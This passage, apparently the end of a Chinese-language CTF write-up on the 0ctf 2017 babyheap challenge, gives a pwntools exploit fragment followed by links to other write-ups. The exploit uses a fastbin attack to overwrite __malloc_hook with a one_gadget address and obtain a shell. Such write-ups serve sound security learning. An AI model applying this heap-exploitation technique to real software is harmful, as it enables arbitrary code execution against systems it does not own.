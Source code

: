 ```python
fill(0, 'd'*0x10 + p64(0) + p64(0x71) + p64(malloc_hook-27-0x8) + p64(0))

alloc(0x60) # 1
alloc(0x60) # 2
fill(2, 'a'*3 + p64(0) + p64(0) +p64(libc_base + 0x4526a))
alloc(0x10)

p.interactive()
```

## 参考资料

+ Anciety. [0ctf 2017 babyheap writeup](https://blog.csdn.net/qq_29343201/article/details/66476135)
+ uaf.io. [0ctf Quals 2017 - BabyHeap2017](http://uaf.io/exploitation/2017/03/19/0ctf-Quals-2017-BabyHeap2017.html)
+ gd菜鸡. [0ctf2017 - babyheap](https://bbs.pediy.com/thread-223461.htm)
+ ctf-wiki. [2017 0ctf babyheap](https://ctf-wiki.github.io/ctf-wiki/pwn/heap/fastbin_attack/#2017-0ctf-babyheap)
+ david942j. [onegadget](https://github.com/david942j/one_gadget)
